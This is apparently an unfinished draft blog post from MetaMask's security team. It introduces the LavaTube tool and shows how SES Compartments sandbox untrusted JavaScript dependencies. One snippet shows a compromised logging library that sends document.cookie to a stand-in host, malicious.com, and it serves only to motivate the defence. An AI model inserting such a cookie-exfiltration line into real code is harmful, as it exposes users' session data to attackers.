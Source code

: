 ```yaml
---
enabled: false
layout: post
tags:  Top,JavaScript,Research,The-Client-Side,Browser,LavaMoat
title: LavaTube - Expermintal JS tool for recursively walk through ???
url: https://weizman.github.io/
date: 14/05/2023
description: ???
keywords: javascript, web, browser, lavamoat, research, prototype, chain, recursive
---
```


> tl;dr - ???

## LavaMoat

This was [already communicated](https://metamask.io/news/security/using-lavamoat-to-solve-software-supply-chain-security/) 
multiple times online, so I won't go too much into details today, but the bottom line is 
that **MetaMask is putting more effort than most of the world into securing the client side of web applications in all sorts of ways.** 

We call this initiative [the LavaMoat toolbox](https://github.com/lavamoat/) in which we focus on the **security side of JavaScript and the client 
side apps we build on top of it**, where we face some interesting and very unique challenges.

We previously covered some of the tools in the toolbox:
* LavaMoat - [Using LavaMoat To Solve Software Supply Chain Security](https://metamask.io/news/security/using-lavamoat-to-solve-software-supply-chain-security/)
* Snow - [Introducing Snow: Securing Nested Ownership of Windows](https://github.com/lavamoat/snow/wiki/Introducing-Snow)

But today we'll focus on a smaller problem we had and the cool little experimental LavaMoat tool we built for facing it - **[LavaTube](https://github.com/LavaMoat/LavaTube/)!**

## Motivation

Working on decentralized applications inherently forces such client side products to be **more secure than other standard ones.**
This is because there isn't really a backend to leverage for traditional security architecture - **the security burden lies fully with the client side of the application.**

That is why, as mentioned above, we at MetaMask put more effort than most of the industry into building **the most secured client side applications we can.**
The tools we build are **generic enough for anyone to use to enhance their JavaScript products security**, but we use them specifically to secure different parts of MetaMask.

This situation forces us to come up and implement many unique solutions to this unique ecosystem (as partly listed above).
These different solutions act as separate protection layers where many of them are around making sure **executed code can only do and access what it should and nothing more.**

We (attempt to) accomplish this task by building on top of [Agoric](https://github.com/agoric)'s amazing [SES](https://github.com/endojs/endo/tree/master/packages/ses) technology, 
because thanks to the SES's [Compartment](https://github.com/endojs/endo/tree/master/packages/ses#compartment)s we can execute arbitrary code in its own virtual realm and provide it with a set of specific APIs we wish it would have while not worrying about it
managing to gain more power than intended. It also won't be able to compromise the integrity of other code running in the system if combined with SES's [lockdown](https://github.com/endojs/endo/tree/master/packages/ses#lockdown) and [harden](https://github.com/endojs/endo/tree/master/packages/ses#harden).

> If you're not familiar with these terms you should either try reading through without making full sense of it, or spend some time reading about [SES](https://github.com/endojs/endo/tree/master/packages/ses), [Compartments](https://github.com/endojs/endo/tree/master/packages/ses#compartment), [lockdown](https://github.com/endojs/endo/tree/master/packages/ses#lockdown), [harden](https://github.com/endojs/endo/tree/master/packages/ses#harden) and [realms](https://weizman.github.io/2022/10/28/what-is-a-realm-in-js)).

### Demonstration

Assume we build a simple program that tells you the time:

```html
<html>
  <head>
    <script>
      function tellTime() {
        console.log('telling time; ' + 'start');
        alert('time is: ' + new Date().toString());
        console.log('telling time; ' + 'end');
      }
    </script>
  </head>
  <body>
    <button onclick="tellTime()"> Click to know the time! </button>
  </body>
</html>
```

Since we LOVE using dependencies to make our lives easier, we better use a proper logging package instead of just calling `console.log`:

```javascript
globalThis.logger = function (msg) {
  console.log(msg);
}
```

```html
<html>
  <head>
    <script src="https://logger.com/lib.js"></script>
    <script>
      function tellTime() {
        logger('telling time; ' + 'start');
        alert('time is: ' + new Date().toString());
        logger('telling time; ' + 'end');
      }
    </script>
  </head>
  <body>
    <button onclick="tellTime()"> Click to know the time! </button>
  </body>
</html>
```

But what do we do if `logger`'s maintainer goes evil? Or compromised?

```javascript
globalThis.logger = function (msg) {
  console.log(msg);
}
fetch('https://malicious.com/stealCookies?data=' + document.cookie);
```

With Compartments, the threat can be eliminated completely:

```html
<html>
  <head>
    <script>
      globalThis.logger = (async function(){
        lockdown();
        const data = await fetch('https://logger.com/lib.js');
        const js = await data.text();
        const comp = new Compartment({console});
        comp.evaluate(js);
        return comp.globalThis.logger;
      }());
    </script>
    <script>
      function tellTime() {
        logger('telling time; ' + 'start');
        alert('time is: ' + new Date().toString());
        logger('telling time; ' + 'end');
      }
    </script>
  </head>
  <body>
    <button onclick="tellTime()"> Click to know the time! </button>
  </body>
</html>
```

The code above achieves the same effect, but instead of loading the untrusted dependency to the main realm of our app, we load it 
into a virtual realm (the compartment) and we only allow it to access `console`, so when the code evaluates it'll have access to `console` when it needs it,
but it won't be able to call `fetch`/`document.cookie` as it wasn't explicitly allowed (Agoric prefers using **endowed**).

## Problem

However, JavaScript being JavaScript, Not endowing a Compartment one specific API does not necessarily mean it isn't accessible otherwise...



### Background

In MetaMask we work hard on shipping our very own plugin system we call [MetaMask Snaps](https://metamask.io/snaps/).
Aside from it being a super interesting initiative in the Web3 ecosystem that **will unlock some really interesting capabilities**, 
it is quite a complicated task, **especially when you take JavaScript client side security as serious as we do.**

Without making things too complicated, you should know we implement multiple security layers for both MetaMask and Snaps, and some of those layers overlap.
One important security layer both implement is the use of [SES Compartments](https://github.com/endojs/endo/tree/master/packages/ses#compartment).

A SES Compartment is a virtual realm that comes with the full set of JavaScript intrinsics, in which code can be evaluated and cannot escape it:

```javascript
<script>
  const c = new Compartment();
  c.evaluate('');
</script>
```

